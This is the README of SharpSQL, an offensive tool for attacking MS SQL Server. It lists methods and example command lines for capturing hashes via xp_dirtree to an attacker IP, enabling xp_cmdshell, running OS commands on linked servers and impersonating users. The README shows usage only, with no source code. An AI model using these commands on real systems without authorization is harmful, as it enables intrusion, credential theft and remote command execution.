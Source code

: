 # SharpSQL

Simple port of PowerUpSQL
- Methods and options are case-insensitive e.g. `Get-SQLInstanceDomain`/`get-sqlinstancedomain` or `-Instance`/`-instance`
- `-Instance` required for all methods except `Get-SQLInstanceDomain`

Thanks to [tevora-threat](https://github.com/tevora-threat) for getting the ball rolling.

## Usage
```
SharpSQL by @mlcsec

Usage:

    SharpSQL.exe [Method] [-Instance <sql.server>] [-LinkedInstance <linked.sql.server>] [-Command <whoami>] [-Query <query>]

Options:

    -Instance                  - The instance to taget
    -db                        - The db to connect to (default: master)
    -LinkedInstance            - The linked instance to target
    -ip                        - The IP to xp_dirtree (share: /pwn)
    -User                      - The user to impersonate
    -Command                   - The command to execute (default: whoami - Invoke-OSCmd and Invoke-LinkedOSCmd)
    -Query                     - The raw SQL query to execute
    -help                      - Show  help

Methods:
    Get-SQLInstanceDomain      - Get SQL instances within current domain via user and computer SPNs (no parameters required)
    Get-Databases              - Get available databases (-Instance required)
    Get-DBUser                 - Get database user via USER_NAME (-Instance required)
    Get-GroupMembership        - Get group member for current user ('guest' or 'sysadmin') (-Instance required)
    Get-Hash                   - Get hash via xp_dirtree (-Instance and -ip required)
    Get-ImpersonableUsers      - Get impersonable users (-Instance required)
    Get-LinkedServers          - Get linked SQL servers (-Instance required)
    Get-LinkedPrivs            - Get current user privs for linked server (-Instance and -LinkedInstance required)
    Get-Sysadmins              - Get sysadmin users (-Instance required)
    Get-SystemUser             - Get system user via SYSTEM_USER (-Instance required)
    Get-SQLQuery               - Execute raw SQL query (-Instance and -Query required)
    Get-Triggers               - Get SQL server triggers (-Instance required)
    Get-Users                  - Get users from syslogins (-Instance required)
    Get-UserPrivs              - Get current user server privileges (-Instance required)
    Check-Cmdshell             - Check whether xp_cmdshell is enabled on instance (-Instance required)
    Check-LinkedCmdshell       - Check whether xp_cmdshell is enabled on linked server (-Instance and -LinkedInstance required)
    Enable-Cmdshell            - Enable xp_cmdshell on instance (-Instance required)
    Enable-LinkedCmdshell      - Enable xp_cmdshell on linked server (-Instance and -LinkedInstance required)
    Invoke-OSCmd               - Execute system command via_xp_cmdshell on instance (-Instance required)
    Invoke-LinkedOSCmd         - Executes system command via xp_cmdshell on linked server (-Instance and -LinkedInstance required)
    Invoke-ExternalScript      - Invoke external python script command execution (-Instance required)
    Invoke-OLEObject           - Invoke OLE wscript command execution (-Instance required)
    Invoke-UserImpersonation   - Impersonate user (-Instance and -User required)

Examples:

    SharpSQL.exe Get-SQLInstanceDomain
    SharpSQL.exe Get-UserPrivs -Instance sql.server
    SharpSQL.exe Get-Sysadmins -Instance sql.server
    SharpSQL.exe Get-LinkedServers -Instance sql.server
    SharpSQL.exe Get-Hash -Instance sql.server -ip 10.10.10.10
    SharpSQL.exe Invoke-OSCmd -Instance sql.server -Command "whoami /all"
    SharpSQL.exe Invoke-LinkedOSCmd -Instance sql.server -LinkedInstance linked.sql.server -Command "dir C:\users\"
```


## Demo
### Get-GroupMembership
![image](https://user-images.githubusercontent.com/47215311/153180706-78e2a53c-79fb-4db0-ba03-cda16d476966.png)

### Get-SQLquery
![image](https://user-images.githubusercontent.com/47215311/153181678-6d61bb45-ff9b-4451-93ff-9497ab875bc5.png)

### Get-UserPrivs
![image](https://user-images.githubusercontent.com/47215311/153054239-3937a19a-5514-42fb-980c-4e1676f085ca.png)

### Invoke-OSCmd
![image](https://user-images.githubusercontent.com/47215311/153182593-e40747ff-b9f1-4ed4-a634-556f37e617ea.png)




## Todo

- Test:
    - `Invoke-ExternalScript` - not tested in lab

- Fix:
    - `Enable-LinkedCmdshell` - rpc or metadata error currently, `Check-LinkedCmdshell` and `Invoke-LinkedOSCmd` work fine

- Add:
    - `Invoke-CustomAsm`
    - `Add-User`
    - `Add-LinkedUser`
    - `Enable-RPC` - on instance and linkedinstance, allows for EXEC... AT...
    - double link crawl functionality, raw queries should work as is
